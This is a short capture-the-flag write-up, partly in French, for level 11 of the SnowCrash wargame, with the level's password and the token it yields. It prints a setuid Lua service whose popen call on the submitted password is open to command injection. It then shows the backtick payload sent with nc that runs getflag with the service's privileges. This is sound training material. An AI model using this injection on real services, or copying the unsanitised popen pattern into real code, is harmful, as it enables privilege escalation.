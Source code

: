 # LEVEL 11

**LOGIN: level11**

**PASSWORD: feulo4b72j7edeahuete3no7c**

 ----


```
level11@SnowCrash:~$ ls -l 
total 4
-rwsr-sr-x 1 flag11 level11 668 Mar  5  2016 level11.lua
```
```
level11@SnowCrash:~$ cat level11.lua 
#!/usr/bin/env lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151))

function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end


while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local l, err = client:receive()
  if not err then
      print("trying " .. l)
      local h = hash(l)

      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
          client:send("Erf nope..\n");
      else
          client:send("Gz you dumb*\n")
      end

  end

  client:close()
end
```

Le reverse sha1 de `"f05d1d066fb246efe0c6f7d095f909a7a0cf34a0` ne donne rien malheureusement. 

Avec `netstat` on confirme bien que le port 5151 est en écoute

`tcp        0      0 127.0.0.1:5151          0.0.0.0:*               LISTEN      -`


Cette ligne ` prog = io.popen("echo "..pass.." | sha1sum", "r")` doit nous permettre d'exploit un subshell avec le mot de passe entrée.

```
nc localhost 5151
Password: `getflag >/tmp/exploit`
Erf nope..
level11@SnowCrash:~$ cat /tmp/exploit
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
```

**TOKEN :fa6v5ateaw21peobuub8ipe6s**


